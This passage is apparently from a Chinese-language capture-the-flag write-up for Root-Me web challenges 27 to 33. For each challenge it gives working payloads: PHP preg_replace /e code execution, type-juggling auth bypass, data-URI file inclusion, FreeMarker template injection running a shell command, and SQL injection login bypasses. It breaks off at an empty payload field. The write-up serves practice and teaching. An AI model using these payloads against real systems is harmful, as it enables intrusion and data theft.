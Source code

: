 ## 27.PHP preg\_replace()
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch37/index.php](http://challenge01.root-me.org/web-serveur/ch37/index.php "http://challenge01.root-me.org/web-serveur/ch37/index.php") &#x20;
\[+]Statement:读flag.php &#x20; 
\[+]Solution:经过测试发现页面的三个输入点分别对应preg\_replace的三个参数，利用preg\_replace在第一个参数有/e的标示下，当满足匹配时会把第二个参数当作代码执行，因此构造payload可以读文件 &#x20;
\[+]Payload:search=/a/e\&replace=file\_get\_contents(‘flag.php’)\&content=a

## 28.PHP type juggling
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch44/](http://challenge01.root-me.org/web-serveur/ch44/ "http://challenge01.root-me.org/web-serveur/ch44/") &#x20;   
\[+]Solution:可以看到源码，页面的逻辑是需要满足\$auth\[‘data’]\[‘login’] == $USER && !strcmp($auth\[‘data’]\[‘password’]。同样是两个弱类型比较，第一个只需要满足值为0或者为true，即可绕过，strcmp需要使传入的参数为不含有字母的数组，即可绕过。 &#x20;
 
\[+]Payload:auth=%7B%22data%22%3A%7B%22login%22%3A0%2C%22password%22%3A\[122]%7D%7D
## 29.Remote File Inclusion
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch13/](http://challenge01.root-me.org/web-serveur/ch13/ "http://challenge01.root-me.org/web-serveur/ch13/") &#x20;
\[+]Statement:获取PHP源代码 &#x20;
\[+]Solution:测试发现有文件包含，且开启了allow\_url\_fopen和allow\_url\_include，即可以实现远程文件包含。由于在代码执行时，用户的参数被加上了后缀，使用php\://input或者是file://….不太好用，因此选择使用data:text/plain,\<?php … ?>进行文件包含，可以读到源码 &#x20;
\[+]Payload:?lang=data:text/plain,\<?php echo file\_get\_contents(‘index.php’); ?>
## 30.Server-side Template Injection
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch41/](http://challenge01.root-me.org/web-serveur/ch41/ "http://challenge01.root-me.org/web-serveur/ch41/") &#x20;
\[+]Statement:JAVA EE。利用漏洞获得SECRET\_FLAG.txt中的密码。 &#x20;
\[+]Solution:根据提示，得知服务器使用的中间件为JAVAEE，查询资料得知FreeMarker为java下最受欢迎的模版引擎，利用其格式在输入点输入\${3\*3}，发现被渲染成了9。利用FreeMarker的一个可以用来执行命令的类构造出如下payload，即可查看flag内容。 &#x20;
\[+]Payload:nickname=<#assign ex=”freemarker.template.utility.Execute”?new()> \${ ex(“cat SECRET\_FLAG.txt”) }
## 31.SQL injection - authentication
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch9/](http://challenge01.root-me.org/web-serveur/ch9/ "http://challenge01.root-me.org/web-serveur/ch9/") &#x20;
\[+]Statement:获取管理员的密码 &#x20;
\[+]Solution:无任何过滤的注入，通过order by参数可以控制登录的用户，审查元素获得密码 &#x20;
\[+]Payload:login=123#\&password=1’ or ‘1’=’1’ order by 1 –+
## 32.SQL injection - authentication - GBK
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch42/](http://challenge01.root-me.org/web-serveur/ch42/ "http://challenge01.root-me.org/web-serveur/ch42/") &#x20;
\[+]Statement:获取管理员的密码 &#x20;
\[+]Solution:根据题目判断是宽字节注入，所以利用%df逃逸PHP函数的转译。 &#x20;
\[+]Payload:login=%bf’ or 1=1 – -\&password=abc
## 33.SQL injection - string
\[+]URL:[http://challenge01.root-me.org/web-serveur/ch19/](http://challenge01.root-me.org/web-serveur/ch19/ "http://challenge01.root-me.org/web-serveur/ch19/") &#x20;
\[+]Statment:获取管理员密码 &#x20;
\[+]Solution:测试网页，发现在action=recherche页面可以使用union函数注入，并且有回显。一步步构造Payload获取管理员密码 &#x20;
\[+]Payload:
